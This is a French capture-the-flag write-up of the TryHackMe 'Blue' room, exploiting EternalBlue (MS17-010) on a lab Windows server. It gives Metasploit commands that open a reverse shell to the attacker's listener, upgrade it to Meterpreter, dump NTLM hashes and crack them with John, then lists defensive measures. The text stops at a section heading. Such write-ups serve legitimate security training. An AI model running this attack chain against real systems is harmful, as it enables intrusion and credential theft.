# TryHackMe | Blue (EternalBlue / MS17-010)

| | |
|---|---|
| **Room** | [Blue](https://tryhackme.com/room/blue) |
| **Plateforme** | TryHackMe |
| **Catégorie** | Exploitation Windows / SMB |
| **CVE** | CVE-2017-0143 à CVE-2017-0148 (MS17-010 / EternalBlue) |
| **Cible** | Windows Server 2012 R2 Datacenter (environnement de lab isolé et jetable fourni par TryHackMe) |
| **Outils** | Nmap, Metasploit Framework, John the Ripper |
| **Statut** | Terminé | 3 flags capturés |

>  **Cadre d'exercice.** Cette machine est une cible volontairement vulnérable, provisionnée par TryHackMe pour l'apprentissage, accessible uniquement via le VPN du lab et détruite à la fin de la session. Les adresses IP, hash et mots de passe ci-dessous n'ont de valeur que dans ce contexte pédagogique précis et ne doivent jamais être réutilisés tels quels sur un test réel sans autorisation écrite (scope / rules of engagement).

## Sommaire

1. [Reconnaissance](#1-reconnaissance)
2. [Identification de la vulnérabilité](#2-identification-de-la-vulnérabilité)
3. [Exploitation EternalBlue](#3-exploitation--eternalblue)
4. [Post-exploitation Meterpreter](#4-post-exploitation--meterpreter)
5. [Élévation de privilèges et dump des hashs](#5-élévation-de-privilèges-et-dump-des-hashs)
6. [Cassage des mots de passe](#6-cassage-des-mots-de-passe)
7. [Capture des flags](#7-capture-des-flags)
8. [Ce qu'il faut retenir](#8-ce-quil-faut-retenir)
9. [Recommandations défensives](#9-recommandations-défensives)
10. [Références](#10-références)

---

## 1. Reconnaissance

Premier réflexe sur toute cible : un scan Nmap complet avec détection de version et scripts par défaut, pour cartographier les services exposés.

```bash
nmap -sV -sC -p- 10.128.170.77
```



**Résultats clés :**
- Port **445/tcp** (microsoft-ds) → **SMB**, le point d'entrée classique sur les machines Windows mal patchées.
- Port **139/tcp** → NetBIOS, confirme un partage de fichiers Windows.
- Port **3389/tcp** → RDP, piste alternative mais non exploitée ici.
- `smb2-security-mode` : **message signing enabled but not required** → la signature SMB n'est pas imposée, ce qui laisse la porte ouverte à des attaques de relais/MITM en plus de MS17-010.
- OS identifié : **Windows Server 2012 R2 Datacenter**, build 9600.

> **À retenir :** un scan de version bien mené donne déjà deux signaux d'alerte (SMB non signé obligatoirement + OS daté) avant même de chercher un exploit précis. En audit réel, ces deux lignes suffiraient à ouvrir un ticket de remédiation.

## 2. Identification de la vulnérabilité

Le script `vuln` de Nmap confirme directement l'exposition à MS17-010 :

```bash
nmap --script vuln 10.128.175.89
```



**Résultats clés :**
- `smb-vuln-ms17-010` : **VULNERABLE**, risque **HIGH**, CVE-2017-0143.
- Référence officielle Microsoft et CVE citées directement dans la sortie du script.

> **À retenir :** ne jamais sauter l'étape de vérification avant exploitation. `smb-vuln-ms17-010` (ou le module auxiliaire `auxiliary/scanner/smb/smb_ms17_010`) permet de confirmer la faille *sans* envoyer de payload destructeur, utile en contexte réel pour ne pas faire crasher un service en production avant d'avoir l'autorisation d'exploiter.

## 3. Exploitation | EternalBlue

### 3.1 Sélection du module

```bash
msfconsole
search ms17-010
use 0   # exploit/windows/smb/ms17_010_eternalblue
```



### 3.2 Configuration de la cible

```bash
show options
set RHOSTS 10.128.137.67
```



### 3.3 Choix du payload

```bash
show payloads
```



Deux familles de payload possibles : `windows/x64/meterpreter/reverse_tcp` (agent complet) ou `windows/x64/shell/reverse_tcp` (shell de commande basique). Sur cette cible, le payload **shell** s'est montré plus stable à la première tentative, le payload meterpreter direct a échoué plusieurs fois avec un timeout du stager (`Exploit failed... Read timeout expired`), un comportement connu : EternalBlue corrompt partiellement le pool mémoire non paginé du noyau, ce qui peut rendre les tentatives suivantes instables tant que la machine n'est pas redémarrée.

**Point de configuration critique :** `LHOST` doit être l'adresse de l'interface **VPN** (`tun0`, ici `192.168.134.110`), pas l'IP NAT de la VM d'attaque (`10.0.2.15`). Une erreur fréquente des débutants est de laisser l'IP par défaut de VirtualBox, ce qui rend le reverse shell injoignable depuis la cible.

### 3.4 Lancement de l'exploit

```bash
set payload windows/x64/shell/reverse_tcp
set LHOST 192.168.134.110
exploit
```



**Résultat :** `Command shell session 1 opened` , un shell `cmd.exe` Windows est obtenu, confirmé par la bannière `Microsoft Windows [Version 6.3.9600]` et l'invite `C:\Windows\system32>`.

> **À retenir :** un échec d'exploit n'est pas toujours un échec de méthode, ici la cause était l'instabilité de la cible après plusieurs tentatives, pas une erreur de configuration. Redémarrer la cible et re-tester avec un payload plus simple a suffi à débloquer la situation.

## 4. Post-exploitation | Meterpreter

Le shell `cmd.exe` obtenu est volontairement basique. Pour la suite (élévation, migration de processus, dump de hash), on bascule vers un agent Meterpreter plus riche, sans perdre l'accès déjà obtenu.

```bash
# Ctrl+Z pour passer la session en arrière-plan
background

use post/multi/manage/shell_to_meterpreter
```




```bash
set SESSION 1
set LHOST 192.168.134.110
run
```




**Résultat :** `Meterpreter session 2 opened`.

> **À retenir :** un premier échec du module (`Post module execution completed` sans session ouverte) est courant sur un shell `cmd` basique, relancer le module avec `SESSION` et `LHOST` correctement définis suffit en général. Dans le pire des cas, le shell `cmd` initial reste pleinement utilisable pour naviguer et lire des fichiers via `shell`/`dir`/`type`, sans attendre Meterpreter.

## 5. Élévation de privilèges et dump des hashs

```bash
sessions -i 2
getsystem
getuid
```



**Résultat :** `Server username: NT AUTHORITY\SYSTEM`, le payload EternalBlue s'exécute déjà en contexte SYSTEM (comportement typique de cette CVE, qui exploite directement le noyau), donc `getsystem` confirme simplement l'état existant.

Avant de dumper les hashs, on migre vers un processus plus stable que le thread injecté initial (souvent rattaché à un processus temporaire qui peut mourir) :

```bash
ps
```



```bash
migrate 572   # spoolsv.exe, NT AUTHORITY\SYSTEM
```



```bash
hashdump
```



**Résultat :** 3 comptes locaux dumpés (`Administrator`, `Guest`, `Jon`) avec leurs hashs NTLM.

> **À retenir :** `spoolsv.exe` (Spooler d'impression) est une cible de migration classique car il tourne en SYSTEM et est rarement surveillé de près — mais c'est aussi un service historiquement vulnérable (PrintNightmare, CVE-2021-34527) qu'il faudrait désactiver s'il n'est pas utilisé. Toujours viser un processus stable avant une opération sensible comme `hashdump`, qui peut faire planter une session logée dans un processus fragile.

## 6. Cassage des mots de passe

Le hash de l'administrateur est généralement trop complexe pour être cassé rapidement avec une wordlist ; celui du compte `Jon` est la cible pédagogique de la room.

```bash
echo "<hash NTLM>" > hash.txt
```



```bash
sudo gunzip /usr/share/wordlists/rockyou.txt.gz   # si pas déjà décompressé
john --format=NT hash.txt --wordlist=/usr/share/wordlists/rockyou.txt
john --show --format=NT hash.txt
```



**Résultat :** les deux mots de passe ont été cassés en **moins d'une seconde** avec `rockyou.txt` (8–14k mots de passe/sec testés). Les deux valeurs trouvées sont de simples variations de mots du dictionnaire avec majuscule et chiffres, un schéma extrêmement répandu et totalement inefficace contre une attaque par dictionnaire.

> **À retenir :** c'est la démonstration la plus parlante de toute la room. La compromission initiale exploite une faille logicielle non patchée (MS17-010), mais la compromission des comptes utilisateurs exploite une faille humaine (mot de passe faible). Un patch corrige le premier problème ; seule une politique de mots de passe stricte (longueur, MFA, blocage des mots de passe compromis) corrige le second.

## 7. Capture des flags

Trois flags à récupérer via Meterpreter (`cd`, `ls`, `cat` , pas les commandes Windows classiques tant qu'on est dans le contexte Meterpreter) :

**Flag 1 : racine de `C:\`**
```bash
cd C:\\
ls
cat flag1.txt
```

→ `flag{access_the_machine}`

**Flag 2 : `C:\Windows\System32\config`**
```bash
cd C:\\Windows\\System32\\config
ls
```

```bash
cat flag2.txt
```

→ `flag{sam_database_elevated_access}`

**Flag 3 : `C:\Users\Jon\Documents`**
```bash
cd C:\\Users\\Jon\\Documents
ls
cat flag3.txt
```

→ `flag{admin_documents_can_be_valuable}`

> **À retenir :** l'emplacement des flags n'est pas anodin , `System32\config` est le dossier qui héberge la base SAM (comptes et hashs locaux), et le dossier `Documents` d'un utilisateur est un classique pour y trouver des informations sensibles oubliées (identifiants, notes). La room fait délibérément le lien entre "où chercher" et "pourquoi ces emplacements sont sensibles".

---

## 8. Ce qu'il faut retenir

| Étape | Compétence démontrée |
|---|---|
| Nmap `-sV -sC` puis `--script vuln` | Reconnaissance méthodique avant toute exploitation, vérification non-intrusive d'une CVE |
| `exploit/windows/smb/ms17_010_eternalblue` | Compréhension d'un exploit kernel-level SMBv1, configuration RHOSTS/LHOST/payload |
| Diagnostic d'un échec d'exploit | Lecture de logs Metasploit, distinction entre erreur de configuration réseau et instabilité de cible |
| `shell_to_meterpreter`, `migrate` | Post-exploitation, stabilisation d'une session avant opérations sensibles |
| `hashdump` + `John the Ripper` | Extraction et cassage de hashs NTLM, compréhension du format SAM |
| Capture de flags via navigation du système de fichiers | Recherche d'information post-compromission |

## 9. Recommandations défensives

Toute la chaîne d'attaque ci-dessus repose sur des faiblesses **connues depuis 2017 et faciles à corriger**. Voici les mesures qui, en environnement réel, auraient bloqué chaque étape :

### Contre l'exploitation initiale (MS17-010 / EternalBlue)
- **Appliquer le patch MS17-010** (mars 2017) sur tout système Windows, y compris les versions en fin de support (Microsoft a exceptionnellement publié un correctif pour Windows XP/2003 après WannaCry).
- **Désactiver SMBv1** quand il n'est pas strictement nécessaire :
  ```powershell
  Disable-WindowsOptionalFeature -Online -FeatureName SMB1Protocol
  ```
- **Exiger** la signature SMB (`Require SMB Signing`), pas seulement l'autoriser, observé ici comme "enabled but not required", c'est une faiblesse en soi indépendamment de MS17-010.
- **Segmenter le réseau** : un hôte SMB exposé ne devrait jamais être accessible directement depuis un réseau non fiable ; filtrer 445/139/3389 en périmètre et entre VLANs.
- **Détection** : les tentatives EternalBlue laissent des signatures réseau reconnaissables (paquets SMB malformés, transactions NT Trans anormales) détectables par une sonde IDS/IPS (Suricata/Snort disposent de règles dédiées) ou un EDR surveillant les crashs/anomalies de `lsass.exe`/`srv.sys`.

### Contre la persistance et l'élévation de privilèges
- **Principe de moindre privilège** : limiter les comptes de service tournant en SYSTEM, désactiver les services inutiles (ex. spouleur d'impression si non requis — et le patcher contre PrintNightmare sinon).
- **Journalisation et EDR/Sysmon** : la migration de processus, l'injection mémoire et `hashdump` laissent des traces (accès LSASS, création de handles) détectables avec une télémétrie Sysmon correctement configurée (Event ID 10 pour l'accès process).
- **Protection LSASS** : activer Credential Guard / LSA Protection (RunAsPPL) pour empêcher le dump direct des hashs en mémoire.

### Contre le cassage de mots de passe
